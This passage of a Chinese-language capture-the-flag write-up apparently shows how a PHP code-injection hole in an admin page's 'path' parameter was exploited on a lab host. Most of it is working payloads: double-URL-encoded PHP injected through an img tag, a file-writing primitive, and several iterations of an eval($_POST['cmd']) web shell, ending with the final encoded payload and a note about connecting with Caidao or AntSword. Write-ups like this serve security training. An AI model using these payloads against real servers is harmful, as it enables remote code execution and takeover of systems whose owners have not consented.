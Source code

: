 所以得出 在输入框内 需要对php内容进行2次编码

**构造payload**

>初始payload:查看当前目录下所有文件，包括文件夹下内容
>`<img src=http://10.21.13.225/admin/index.php?path=index.php/<?php fwrite(fopen('test.php','w+'),"<?php var_dump(glob('*'));?>");?> />`

`<img />` 等内容在admin用户 前端界面显示，所以这里不用URL加密

>对于 path=index.php/ 之后  /> 之前，需要进入到最终 进行两次编码
>`<img src=http://10.21.13.225/admin/index.php?`
>`path=index.php/12%253C%253Fphp%2520fwrite%2528fopen%2528%2527test.`
>`php%2527%252C%2527w%252b%2527%2529%252C%2522%253C%253Fphp%2520var_dump%2528glob%2528%252`
>`7%252a%2527%2529%2529%253B%253F%253E%2522%2529%253B%253F%253E3%2520/>`（此处为了显示，有换行）


<div align=center>
![wp17.png](http://ww2.sinaimg.cn/large/006iKNp3gy1fqorrtn1j5j30qx02xgln.jpg)
</div>

成功，但是没有发现，既然可以写入文件，就写入web-shell吧
### 关于webshell-payload的细节分析
+ web-shell1：`fwrite(fopen('test.php','w+'),"<?php eval($_POST['cmd']);?>");`

但是`"<?php $_POST ?>"`双引号会对里面的 $_POST 进行解析,就没法原原本本写入
+ web-shell2：`fwrite(fopen('test.php','w+'),'<?php eval($_POST[\'cmd\']);?>');`

用单引号，内部对单引号要用\注释，如`\'`
但是在访问admin/index.phpURL解码一次，访问index.php时，URL编码的`\ -> %5C`会被解析成目录路径，从而失败
+ web-shell3：`fwrite(fopen('test.php','w+'),'<?php eval($_POST[cmd]);?>');`

考虑不使用`$_POST[\'cmd\']`使用`$_POST[cmd]`，这种写法虽然会NOICE提醒错误，但是也可以使用
测试可行，还有更好的
+ webshell_final：`fwrite(fopen('test.php','w+'),'<?php eval($_POST["cmd"]);?>');`

fwrite函数写入内容，外单引号，内双引号


>payload:
>`<img src=http://10.21.13.225/admin/index.php?path=index.php/12<?php fwrite(fopen('test.php','w+'),'<?php eval($_POST["cmd"]);?>');?>3 />`
>finally:
>`<img src=http://10.21.13.225/admin/index.php?`
>`path=index.php/12%253C%253Fphp%2520fwrite%2528fopen%2528%2527test.`
>`php%2527%252C%2527w%252b%2527%2529%252C%2527%253C%253Fphp%2520eval%2528%2524_POST`
>`%255B%2522cmd%2522%255D%2529%253B%253F%253E%2527%2529%253B%253F%253E3%2520/>`（此处为了显示，有换行）


<div align=center>
![wp18.png](http://ww4.sinaimg.cn/large/006iKNp3gy1fqortix4e5j30pn091t98.jpg)
</div>

接入菜刀/蚁剑，密码为shell中post参数

<div align=center>
![wp19.png](http://ww3.sinaimg.cn/large/006iKNp3gy1fqosh707b2j30cl09pmxc.jpg)
</div>

